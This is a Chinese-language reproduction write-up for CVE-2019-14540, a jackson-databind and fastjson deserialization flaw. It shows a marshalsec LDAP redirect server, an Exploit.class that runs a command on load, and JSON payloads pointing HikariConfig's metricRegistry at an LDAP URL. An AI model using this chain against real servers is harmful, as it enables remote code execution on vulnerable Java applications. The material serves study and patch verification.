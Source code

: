（CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

FasterXML
Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。
FasterXML jackson-databind
2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

jackson-databind \<=2.7.9.6,2.8.11.4,2.9.9.3

fastjson \<= 1.2.59

三、复现过程
------------

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

    compile 'com.zaxxer:HikariCP:2.4.0'

观察 HikariConfig.java 的setter 和 getter
方法，稍微有点常识的人都能看出， setMetricRegistry 和
setHealthCheckRegistry
里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的jndi利用）

首先，我利用的是 ldap 协议，需要在低版本（小于
java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个
class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建
ldap server，作用是转发到另一个 http server 上，使用非常方便。

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389

    Listening on 0.0.0.0:1389

然后编译一个 Exploit.class 出来，找个地方放好

    public class Exploit {
        public Exploit() {
            try {
                if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                    Runtime.getRuntime().exec("calc.exe");
                } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                    Runtime.getRuntime().exec("open /Applications/Calculator.app");
                } else {
                    System.out.println("No calc for you!");
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

然后在 Exploit.class 目录，开一个 http 服务

    python -m SimpleHTTPServer

之后使用 jackson 进行反序列化

    ObjectMapper mapper = new ObjectMapper();
    mapper.enableDefaultTyping();
    mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class);

或者使用 fastjson 进行反序列化

    ParserConfig.global.setAutoTypeSupport(true);
    JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}");

即可触发弹计算器

![](./.resource/(CVE-2019-14540)FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

### 文中代码的github地址:

https://github.com/ianxtianxt/cve-2019-14540-exploit

参考链接
--------

> https://www.leadroyal.cn/?p=939
>
> https://www.restran.net/2018/10/29/fastjson-rce-notes/
>
> https://paper.seebug.org/942/

